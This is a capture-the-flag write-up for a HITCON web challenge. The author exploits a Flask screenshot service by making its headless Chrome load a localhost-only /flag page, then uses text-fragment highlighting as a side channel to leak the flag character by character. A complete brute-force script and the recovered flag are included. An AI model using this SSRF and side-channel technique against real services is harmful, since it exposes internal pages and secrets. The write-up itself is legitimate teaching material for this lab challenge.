



### Description :

> Can you break it? <br>
http://3.113.172.41/

## Initial steps

When we open the challenge url we are provided with this :



So what the challenge does, is that it launches a docker container (1 per minute max) for each player. we also can download the source of the docker container, but let's take a look at what happens when we lauch our container first.

When we launch our container we are presented with this page :



If we type `https://www.google.com` in the input and hit the `Go` button it gives us a url to an image.
When we visit the image we see this :


we can clearly see that it took a screenshot of google search main page but it's blurred (it's not your internet connection xD)

Now it's time to take a look at the source code of the challenge

app.py :
```python
# coding: UTF-8
import io, os, sys, uuid

from subprocess import run, PIPE
from hashlib import md5

from PIL import Image
from selenium import webdriver, common
from flask import Flask, render_template, request

secret = run(['/read_secret'], stdout=PIPE).stdout
FLAG   = 'hitcon{%s}' % '-'.join(md5(secret).hexdigest())
def init_chrome():
    options = webdriver.ChromeOptions()
    options.add_argument('--headless')
    options.add_argument('--disable-gpu')
    options.add_argument('--disable-dev-shm-usage')
    options.add_argument('--window-size=1920x1080')
    options.add_experimental_option("prefs", {
        'download.prompt_for_download': True, 
        'download.default_directory': '/dev/null'
    })

    driver = webdriver.Chrome(options=options)
    driver.set_page_load_timeout(5)
    driver.set_script_timeout(5)

    return driver

def message(msg):
    return render_template('index.html', msg=msg)

### initialize ###
driver = init_chrome()
app = Flask(__name__)
### initialize ###


@app.route('/flag')
def flag():
    if request.remote_addr == '127.0.0.1':
        return message(FLAG)
    return message("allow only from local")
    
@app.route('/', methods=['GET'])
def index():
    return render_template('index.html')

@app.route('/submit', methods=['GET'])
def submit():
    path = 'static/images/%s.png' % uuid.uuid4().hex
    url  = request.args.get('url')
    if url:
        # secrity check
        if not url.startswith('http://') and not url.startswith('https://'):
            return message(msg='malformed url')

        # access url
        try:
            driver.get(url)
            data = driver.get_screenshot_as_png()
        except common.exceptions.WebDriverException as e:
            return message(msg=str(e))

        # save result
        img = Image.open(io.BytesIO(data))
        img = img.resize((64,64), resample=Image.BILINEAR)
        img = img.resize((1920,1080), Image.NEAREST)
        img.save(path)
        
        return message(msg=path)
    else:
        return message(msg="url not found :(")

if __name__ == '__main__':
    app.run('0.0.0.0', 8000)
```
first thing we notice is that the flag is in `/flag` , but it will only show the it if the request is coming from `127.0.0.1`.
```python
FLAG   = 'hitcon{%s}' % '-'.join(md5(secret).hexdigest())
.
.
. # rest of the code
.
.
@app.route('/flag')
def flag():
    if request.remote_addr == '127.0.0.1':
        return message(FLAG)
    return message("allow only from local")
```

So when we try to screenshot the flag, that's what we get :


Now we have to understand two things, first thing is why the image is blurred, and second thing is how does the app take the screenshot

the answer to the first question is because of this snippet :
```python
        img = Image.open(io.BytesIO(data))
        img = img.resize((64,64), resample=Image.BILINEAR)
        img = img.resize((1920,1080), Image.NEAREST)
        img.save(path)
```
when we read pillow docs at [https://pillow.readthedocs.io/en/stable/handbook/concepts.html#concept-filters](https://pillow.readthedocs.io/en/stable/handbook/concepts.html#concept-filters)

we understood that the application resizes the image to `64x64` using bilinear resample option

```
PIL.Image.BILINEAR

    For resize calculate the output pixel value using linear interpolation on all pixels that may contribute to the output value. For other transformations linear interpolation over a 2x2 environment in the input image is used.

```
 then resizes it back to the original size using nearest 

 ```
PIL.Image.NEAREST

    Pick one nearest pixel from the input image. Ignore all other input pixels.

 ```

 By reading this we already figured out that it's almost impossible to recover the flag from the image.

 Now we want to check how does the app take the screenshot to see if we can manipulate something in the process.

 First thing we can see that it uses chrome 
 ```python
 def init_chrome():
    options = webdriver.ChromeOptions()
    options.add_argument('--headless')
    options.add_argument('--disable-gpu')
    options.add_argument('--disable-dev-shm-usage')
    options.add_argument('--window-size=1920x1080')
    options.add_experimental_option("prefs", {
        'download.prompt_for_download': True, 
        'download.default_directory': '/dev/null'
    })

    driver = webdriver.Chrome(options=options)
    driver.set_page_load_timeout(5)
    driver.set_script_timeout(5)

    return driver
.
. # some code
.
driver = init_chrome()
.
. # more code
.
@app.route('/submit', methods=['GET'])
def submit():
    path = 'static/images/%s.png' % uuid.uuid4().hex
    url  = request.args.get('url')
    if url:
        # secrity check
        if not url.startswith('http://') and not url.startswith('https://'):
            return message(msg='malformed url')

        # access url
        try:
            driver.get(url)
            data = driver.get_screenshot_as_png()
        except common.exceptions.WebDriverException as e:
            return message(msg=str(e))
 ```

 The application also makes sure that our input starts with `http://` or `https://` otherwise it will fail.

 At this point we realized that we have to abuse something in chrome and it's the new feature of chrome called `text fragments` this feature of chrome works like the web page search `ctrl + f` but with more options and it can be used using the `location.hash` part of a url.

 For example if we take a screenshot of `http://localhost:8000/flag#:~:text=hitcon{,}` we get this image :

 

 `#:~:text=hitcon{,}` commands the browser to highlight any text starting with `hitcon{` and ending with `}`

 So we can use this feature to leak the content of the web page by bruteforcing each character of the flag individually.

 and looking at this 
 ```python
FLAG   = 'hitcon{%s}' % '-'.join(md5(secret).hexdigest())
 ```

 we know that `0123456789abcdef-` (hex and dashes) are the only characters in the flag.

so we want to make a script to leak the flag but first we had to find a way to detect images with highlighted text programmatically.

We downloaded a few screenshots of `http://localhost:8000/flag` generated by the app and we noticed that it's the exact same image each time so it'll have the same `md5` hash each time an image doesn't have a highlighted text, and the hash was `59562acafb6436ea5fdf660ec57df0cc` otherwise it means that some text is highlighted which means that the character we are trying is part of the flag.

So we made a bit of a missy script to leak the flag 

exploit.py :

```python
import sys, os
from bs4 import BeautifulSoup
import requests
from urllib.parse import unquote

target = sys.argv[1]
flag=""
payload = "http://localhost:8000/flag%23:~:text=hitcon{#flag,}"
chars="0123456789abcdef"

for x in range(32):
	for c in chars :
		res = requests.get(target+"submit?url="+payload.replace("#flag",flag+c)).text
		# print(target+"submit?url="+payload.replace("#flag",flag+c))
		soup = BeautifulSoup(res, 'html.parser')
		link = soup.find_all('a')[0]
		os.system("wget -q "+target+link.get('href')+" -O "+flag+c)
		if "59562acafb6436ea5fdf660ec57df0cc" not in os.popen("cat "+flag+c+" |md5sum").read() :
			os.system("rm "+flag+c)
			flag+=c+"%252d"
			print("[+] hitcon{"+unquote(unquote(flag))[:-1]+"}")
			break
		else :
			os.system("rm "+flag+c)			
```

and here's the output


and here's the flag `hitcon{1-1-4-1-6-1-e-9-f-9-4-c-7-3-e-4-9-7-a-7-5-d-4-6-6-c-6-3-3-7-f-4}
`